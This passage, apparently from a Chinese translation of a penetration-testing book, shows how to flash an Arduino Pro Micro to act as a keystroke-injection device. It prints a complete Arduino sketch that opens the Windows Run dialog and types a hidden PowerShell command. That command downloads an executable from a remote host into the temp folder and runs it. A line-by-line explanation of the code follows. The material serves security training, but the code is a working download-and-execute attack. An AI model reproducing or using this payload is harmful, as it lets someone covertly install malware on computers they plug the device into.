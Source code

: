 有关使用 HID 设备进行利用的更多信息，请参阅 USB Rubber Ducky 或 Teensy。

**Arduino Pro Micro**在诸如[`www.aliexpress.com/`](https://www.aliexpress.com/)等知名购物网站上的价格不到 4 美元。因此，使用 Arduino Pro Micro 比 Teensy 和 USB Rubber Ducky 要便宜得多。

使用其编译器软件配置 Arduino 非常容易。精通编程概念的读者会发现这个练习非常容易。

有关设置和开始使用 Arduino 的更多信息，请参阅[`www.arduino.cc/en/Guide/Windows`](https://www.arduino.cc/en/Guide/Windows)。

让我们看看我们需要在 Arduino 芯片上烧录的代码：

```
#include<Keyboard.h>
void setup() {
delay(2000);
type(KEY_LEFT_GUI,false);
type('d',false);
Keyboard.releaseAll();
delay(500);
type(KEY_LEFT_GUI,false);
type('r',false);
delay(500);
Keyboard.releaseAll();
delay(1000);
print(F("powershell -windowstyle hidden (new-object System.Net.WebClient).DownloadFile('http://192.168.10.107/pay2.exe','%TEMP%\\mal.exe'); Start-Process \"%TEMP%\\mal.exe\""));
delay(1000);
type(KEY_RETURN,false);
Keyboard.releaseAll();
Keyboard.end();
}
void type(int key, boolean release) {
 Keyboard.press(key);
 if(release)
  Keyboard.release(key);
}
void print(const __FlashStringHelper *value) {
 Keyboard.print(value);
}
void loop(){}
```

我们有一个名为`type`的函数，它接受两个参数，即要按下和释放的键的名称，这决定了我们是否需要释放特定的键。下一个函数是`print`，它通过直接在键盘按下函数上输出文本来覆盖默认的`print`函数。Arduino 主要有两个函数，即`loop`和`setup`。由于我们只需要我们的 payload 下载和执行一次，所以我们将代码放在`setup`函数中。当我们需要重复一组指令时，需要`Loop`函数。`delay`函数相当于`sleep`函数，它暂停程序一定的毫秒数。`type(KEY_LEFT_GUI, false);`将按下目标上的左 Windows 键，由于我们需要保持按下，所以我们将`false`作为释放参数传递。接下来，以同样的方式，我们传递`d`键。现在，我们按下了两个键，即 Windows + *D*（显示桌面的快捷键）。一旦我们提供`Keyboard.releaseAll();`，`Windows+d`命令就会被推送到目标上执行，这将最小化桌面上的所有内容。

在[`www.arduino.cc/en/Reference/KeyboardModifiers`](https://www.arduino.cc/en/Reference/KeyboardModifiers)了解更多关于 Arduino 键盘库的信息。

同样，我们提供下一个组合来显示运行对话框。接下来，我们在运行对话框中打印 PowerShell 命令，该命令将从远程站点`192.168.10.107/pay2.exe`下载我们的 payload 到`Temp`目录，并将其从那里执行。提供命令后，我们需要按*Enter*来运行命令。我们可以通过将`KEY_RETURN`作为键值来实现这一点。让我们看看如何向 Arduino 板写入：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/cpl-mtspl-gd/img/60db5ac4-e456-44a9-be61-089f6f46890f.png)
